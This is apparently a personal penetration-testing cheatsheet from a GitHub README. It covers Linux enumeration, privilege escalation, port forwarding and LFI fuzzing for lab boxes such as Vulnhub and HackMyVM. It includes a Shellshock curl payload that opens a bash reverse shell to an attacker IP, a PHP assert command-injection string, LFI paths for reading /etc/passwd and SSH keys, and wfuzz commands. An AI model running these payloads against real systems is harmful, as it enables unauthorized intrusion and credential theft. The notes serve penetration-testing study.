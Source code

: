 # My Notes / Cheatsheet
### Last Updated: 12 Jan 2020
Notes related to Vuln Assmnt/PenTesting 

#### Approach for Linux
> 1. Identify open ports (**nmap/autorecon/rustscan**), enumerate ports (TCP+UDP) for services.
> 1. Run **gobuster/wfuzz** and identify DIR and FILES present. Try using 02 diff wordlists. BurpSuite also has crawler. 
> 1. Run **nikto**, Have you read the source code ? If its a website look whats running ? 
> 1. Wordpress, Joomla, October, Phpmyadmin, Mantis, Adminer etc.
> 1. Running tools e.g **wpscan** or **joomscan** can help further enumeration.
> 1. Try running **Hydra** with HTTP module for brute forcing.
> 1. Cewl can be used to generate a custom wordlist if "/usr/share/wordlists/rockyou.txt" fails. 
> 1. Custom built web normally has:
> 1. SQL injection - **Authentication bypass** & **Database dump** & **Upload malicious file**.
> 1. XSS - Alerting messages and getting cookies
> 1. LFI - **.php?file=/etc/passwd** - Try fuzzing it with WFUZZ. Reading **LOG** files to acheive RCE or Reading **SSH** key files.
> 1. PHP assert ftn to bypass - e.g. http://192.168.10.30/index.php?page=' and die(system("ls")) or '	
> 1. Command Injection - Try Special characters e.g. " ; , | , & , && " etc. ${IFS} is space --- Can help in achieving ComInj. 

#### PrivESC Methodology for Linux
> 1. Creds file or any misconfiguration file? (**find** command)
> 1. SUDO commands this user can run ?
> 1. SUID binaries present (use **find** command or **suid3num python** script)
> 1. Is there SQL database, try enumerating it ?
> 1. Running ports / services on this box ? (use **netstat** or **ss** command)
> 1. Pspy ?
> 1. Kernel or other exploits e.g. exploits for SUDO ?
> 1. **Linpeas** or **LinEnum** or **Linux Exploit Suggester**

#### cgi-bin folder or ShellShock
> e.g from vulnhub symfonos v3 following gives Rev Shell @ port 9999.\
> curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.10.100/9999 0>&1' http://192.168.10.10/cgi-bin underworld/test.sh

#### Portforwarding local service 8080
> using **socat** for local port forwarding. In this example port 8080 is running locally and we will forward and make it public to 8089.\
> socat TCP-LISTEN:8089,fork TCP:127.0.0.1:8080

#### Portforwarding local service 5901 (VNC) - HackMyVM Box Level
> using SSH (Kali IP: 192.168.10.100, Level IP: 192.168.10.11).\
> there is a service running on port 5901 locally.\
> ss -tupln output --> 127.0.0.1:5901 (locally) && 0.0.0.0:65000 (global) && :80(global).\
> From Kali Box run: ssh -L 5901:localhost:5901 one@192.168.10.11 -p 65000.\
> Now you can acess that port 5901 locally i.e. (from Kali Box: http://127.0.0.1:5901) .\
> **VNC open session** vncviewer -passwd remote_level 127.0.0.1:5901

#### Fuzzing LFI
> wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathto
test-huge.txt -b "wp-settings-time-1=1608569211; PHPSESSID=i1hg93k0bmjg4jgpf0m7j7b5fl" -u http
://192.168.10.13/bluesky/port.php?file=FUZZ --hw 245 -H "User-Agent:Mozilla/5.0 (X11; Linux x8
6_64; rv:78.0) Gecko/20100101 Firefox/78.0"
> wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathto
test-huge.txt -b "wp-settings-time-1=1608569211; PHPSESSID=i1hg93k0bmjg4jgpf0m7j7b5fl" -u http
://192.168.10.13/bluesky/port.php?file=FUZZ --hw 245 -H "User-Agent:Mozilla/5.0 (X11; Linux x8
6_64; rv:78.0) Gecko/20100101 Firefox/78.0" -P 127.0.0.1:8080:HTTP
